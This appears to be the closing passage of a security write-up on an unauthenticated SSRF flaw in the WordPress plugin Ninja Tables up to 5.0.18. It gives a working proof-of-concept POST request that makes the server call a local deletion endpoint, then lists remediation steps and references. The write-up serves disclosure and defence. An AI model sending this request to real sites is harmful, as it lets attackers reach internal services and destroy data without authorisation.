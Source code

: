 ```
POST /wp-admin/admin-post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Connection: close

action=wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77&args[url]=http://localhost:8001/delete?id=1&args[method]=GET&args[name]=Tokuda
```

**Result**:

![Result](result.png "GET request to local service")

## Conclusion

The SSRF vulnerability in **Ninja Tables ≤ 5.0.18** shows that the `args[url]` parameter provided by the client is used directly to perform server-side requests without validation, allowing an unauthenticated attacker to force the application to access arbitrary destinations. The patch in **≥ 5.0.19** removed the unsafe code and mitigated this attack vector.

## Key takeaways

* Upgrade immediately to **5.0.19** or later.
* Do not use client input directly as a request URL — validate/normalize before use.
* Implement allowlists for hosts/ports and block private IP ranges (127.0.0.0/8, 10.0.0.0/8, 192.168.0.0/16, etc.).
* Avoid registering `admin_post_nopriv_*` endpoints for functions that perform outbound requests, or add proper permission/CSRF controls.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[WordPress Ninja Tables Plugin <= 5.0.18 is vulnerable to Server Side Request Forgery (SSRF)](https://patchstack.com/database/wordpress/plugin/ninja-tables/vulnerability/wordpress-ninja-tables-easy-data-table-builder-plugin-5-0-18-unauthenticated-server-side-request-forgery-vulnerability)
